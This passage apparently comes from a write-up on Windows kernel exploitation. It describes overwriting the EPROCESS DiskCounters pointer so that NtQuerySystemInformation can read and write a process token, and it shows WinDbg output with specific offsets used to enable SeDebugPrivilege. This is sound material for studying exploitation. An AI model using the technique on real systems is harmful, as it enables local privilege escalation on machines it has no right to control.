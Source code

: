 Here ,we can't read the token of the `system` process because we can only change the bits in the current process EPROCESS object, so we are going to use second method . Author founds that by changing the  `DiskCounters BytesWritten` ( element of `EPROCESS` object) we can read the token using `NtSystemQueryInformation` API and also write to that.

```
kd> dqs ffffc703`d61b1080 + 8b8 l2     
ffffc703`d61b1938  ffffc703`d61b1ac0    <---- DiskCounter
ffffc703`d61b1940  00000000`00000000
kd> dqs ffffc703`d61b1080 + 4b8 l2
ffffc703`d61b1538  ffff848a`436c0064     <---- token
ffffc703`d61b1540  00000000`00000000
```
Here, we overwrite the disk counter `ffffc703d61b1ac0` with `ffffc703d61b1530`, 0x8 is subtracted because we want to overwrite the address with `BytesWritten` not `BytesRead`. Then using `NtQuerySystemInformation` API we read the token and then write to `privileges.present` and `privileges.enabled` of the token to enable `SeDebugPrivilege`.

```C
//0x28 bytes (sizeof)
struct _PROCESS_DISK_COUNTERS
{
    ULONGLONG BytesRead;                                                    //0x0
    ULONGLONG BytesWritten;                                                 //0x8
    ULONGLONG ReadOperationCount;                                           //0x10
    ULONGLONG WriteOperationCount;                                          //0x18
    ULONGLONG FlushOperationCount;                                          //0x20
}; 
```
![](/images/whole_diagram.png)
